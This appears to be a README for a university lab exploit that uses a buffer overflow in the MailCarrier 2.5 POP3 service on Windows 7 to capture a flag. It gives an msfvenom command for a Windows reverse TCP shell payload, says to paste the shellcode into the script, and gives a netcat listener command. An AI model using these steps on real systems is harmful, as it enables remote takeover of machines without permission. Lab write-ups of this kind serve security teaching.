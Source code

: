 # Mailcarrier-2.5-buffer-overflow

This was part of a Universety project where we were tasked on using a buffer overflow to get a flag from a system, it exploited the vulnerabilities of the mailcarrier 2.5 server using the pop 3 port(110)

the program was running on a win7 machine, to use it run the command: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.4 LPORT=25 -b "\x00" exitfunc=thread -f python

where LHOST is your IP address and LPORT the port you will be listening on netcat, in this case, because the mailcarrier also open port 25 it was used

change the variable "shellcode" to the code generated by msfvenom

run: nc -nlvp 25

results may vary from system to system, if its not working i recommend you try top replicate the system on a local machine and figure it out if the JMP code, number of characters to reach EIP or Badchars differ from this case